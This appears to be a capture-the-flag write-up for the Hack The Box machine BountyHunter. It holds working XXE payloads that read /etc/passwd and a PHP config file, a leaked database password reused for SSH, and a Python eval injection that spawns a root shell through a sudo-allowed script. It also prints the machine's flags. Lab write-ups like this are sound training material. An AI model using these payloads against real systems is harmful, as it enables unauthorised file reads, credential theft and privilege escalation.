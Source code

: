 ```yaml
---
title: "bountyhunter from HTB"
categories: [Hack The Box]
tags: [Hack The Box]
---
```

# bountyhunter from HTB
this is vulnerable `http://10.10.11.100/log_submit.php`
after sending the payload with `burpsuite + intercept`we see this
```bash
data=PD94bWwgIHZlcnNpb249IjEuMCIgZW5jb2Rpbmc9IklTTy04ODU5LTEiPz4KCQk8YnVncmVwb3J0PgoJCTx0aXRsZT5naW88L3RpdGxlPgoJCTxjd2U%2BZ2lvPC9jd2U%2BCgkJPGN2c3M%2BZ2lvPC9jdnNzPgoJCTxyZXdhcmQ%2BMzE8L3Jld2FyZD4KCQk8L2J1Z3JlcG9ydD4%3D
```
which is `base64`and `xml file`so we can create an `xml code`for `xxe`, encode it and then send it to read files.
`xml` file
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE data [
<!ENTITY help SYSTEM "file:///etc/passwd"> ]>
<bugreport>
<title>test</title>
<cwe>test</cwe>
<cvss>test</cvss>
<reward>&help;</reward>
</bugreport>
```
encode it with `base64`and `url-encode`it in `burpsuite`, then send it.
```bash
   <td>root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
development:x:1000:1000:Development:/home/development:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
</td>
```
we can also read other files for example `db.php`
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE data [
<!ENTITY file SYSTEM "php://filter/read=convert.base64-encode/resource=/var/www/html/db.php"> ]>
<bugreport>
<title>test</title>
<cwe>test</cwe>
<cvss>test</cvss>
<reward>&file;</reward>
</bugreport>
```
then send it like you sent last payload
```bash
data=PD94bWwgdmVyc2lvbj0iMS4wIiBlbmNvZGluZz0iSVNPLTg4NTktMSI/Pgo8IURPQ1RZUEUgZGF0YSBbCjwhRU5USVRZIGZpbGUgU1lTVEVNICJwaHA6Ly9maWx0ZXIvcmVhZD1jb252ZXJ0LmJhc2U2NC1lbmNvZGUvcmVzb3VyY2U9L3Zhci93d3cvaHRtbC9kYi5waHAiPiBdPgo8YnVncmVwb3J0Pgo8dGl0bGU%2bdGVzdDwvdGl0bGU%2bCjxjd2U%2bdGVzdDwvY3dlPgo8Y3Zzcz50ZXN0PC9jdnNzPgo8cmV3YXJkPiZmaWxlOzwvcmV3YXJkPgo8L2J1Z3JlcG9ydD4K
```
received
```bash
<td>PD9waHAKLy8gVE9ETyAtPiBJbXBsZW1lbnQgbG9naW4gc3lzdGVtIHdpdGggdGhlIGRhdGFiYXNlLgokZGJzZXJ2ZXIgPSAibG9jYWxob3N0IjsKJGRibmFtZSA9ICJib3VudHkiOwokZGJ1c2VybmFtZSA9ICJhZG1pbiI7CiRkYnBhc3N3b3JkID0gIm0xOVJvQVUwaFA0MUExc1RzcTZLIjsKJHRlc3R1c2VyID0gInRlc3QiOwo/Pgo=</td>
```
after decoding it we get
```php
<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
?>
```
>Username
>   development
>Password
>   m19RoAU0hP41A1sTsq6K

Connect to `ssh`with this credentials
***
User Flag is: 6f65620c3365fe07df57b2b5afab035e
***
after running `linpeas.sh`
```bash
╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid
Matching Defaults entries for development on bountyhunter:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User development may run the following commands on bountyhunter:
    (root) NOPASSWD: /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
```
let's check it
```
#Skytrain Inc Ticket Validation System 0.1
#Do not distribute this file.

def load_file(loc):
    if loc.endswith(".md"):
        return open(loc, 'r')
    else:
        print("Wrong file type.")
        exit()

def evaluate(ticketFile):
    #Evaluates a ticket to check for ireggularities.
    code_line = None
    for i,x in enumerate(ticketFile.readlines()):
        if i == 0:
            if not x.startswith("# Skytrain Inc"):
                return False
            continue
        if i == 1:
            if not x.startswith("## Ticket to "):
                return False
            print(f"Destination: {' '.join(x.strip().split(' ')[3:])}")
            continue

        if x.startswith("__Ticket Code:__"):
            code_line = i+1
            continue

        if code_line and i == code_line:
            if not x.startswith("**"):
                return False
            ticketCode = x.replace("**", "").split("+")[0]
            if int(ticketCode) % 7 == 4:
                validationNumber = eval(x.replace("**", ""))
                if validationNumber > 100:
                    return True
                else:
                    return False
    return False

def main():
    fileName = input("Please enter the path to the ticket file.\n")
    ticket = load_file(fileName)
    #DEBUG print(ticket)
    result = evaluate(ticket)
    if (result):
        print("Valid ticket.")
    else:
        print("Invalid ticket.")
    ticket.close

main()
```
so the file must be `.md`, start with `# Skytrain Inc, ## Ticket to, __Ticket Code:__` and so on. i'm lazy to type
```bash
# Skytrain Inc
## Ticket to Mars
__Ticket Code:__
**179+ 25 == 204 and __import__('os').system('bash') == True
```
then
```bash
$ sudo /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
Please enter the path to the ticket file.
/tmp/help.md
Destination: Mars
root@bountyhunter:/home/development#
```
***
Root Flag is: dca9a40f86c13ba3896ee0d9c11967de
***
![](/assets/images/2024-08-31_19-39-32.png)


